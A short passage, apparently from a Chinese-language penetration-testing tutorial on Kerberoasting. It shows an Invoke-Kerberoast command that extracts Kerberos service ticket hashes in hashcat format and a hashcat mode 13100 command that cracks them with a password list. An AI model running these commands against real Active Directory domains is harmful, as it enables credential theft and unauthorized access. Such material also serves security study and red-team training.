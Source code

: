 也可以只提取 hash:

```
Invoke-kerberoast -outputformat hashcat | select hash | ConvertTo-CSV -NoTypeInformation
```

![](vx_images/4026836189581.png)

2. 使用 hashcat 破解

```
.\hashcat.exe -m 13100 .\kirbi-hash.txt .\passwd.txt
```

![](vx_images/1719026175947.png)
